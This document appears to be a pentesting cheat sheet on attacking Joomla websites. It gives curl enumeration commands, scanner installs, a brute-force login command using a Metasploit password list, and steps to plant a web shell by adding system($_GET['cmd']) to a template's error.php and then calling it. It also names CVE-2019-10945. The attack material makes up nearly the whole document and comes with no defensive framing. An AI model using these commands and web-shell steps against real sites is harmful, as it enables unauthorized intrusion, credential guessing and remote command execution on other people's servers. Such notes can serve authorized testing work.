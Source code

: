## Joombla

### Enumeration
````
$ curl -s http://<domain>/ | grep Joomla
$ curl -s http://<domain>/README.txt | head -n 5
$ curl -s http://<domain>/administrator/manifests/files/joomla.xml | xmllint --format -
````
/robots.txt
````
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
````

### Droopescan & JoomlaScan

````
$ sudo pip3 install droopescan
$ droopescan scan joomla --url http://<domain>/
````
````
https://github.com/drego85/JoomlaScan
$ sudo python2.7 -m pip install urllib3
$ sudo python2.7 -m pip install certifi
$ sudo python2.7 -m pip install bs4
$ python2.7 joomlascan.py -u http://<domain>

https://github.com/OWASP/joomscan
````

### Brute Force Credentials
````
$ sudo python3 joomla-brute.py -u http://<domain> -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <user>
````

### Code Execution

**Abusing Built-In Functionality**
````
- http://<domain>/administrator
- Templates -> Configuration
- Click on a template name
- protostar
- Choose page to edit (error.php)
- Add system($_GET['cmd']);
- Save & Close
- $ curl -s http://<domain>/templates/protostar/error.php?cmd=id
````
**Known Vulnerabilities**
````
Affects version 3.9.4 vulnerable to CVE-2019-10945
````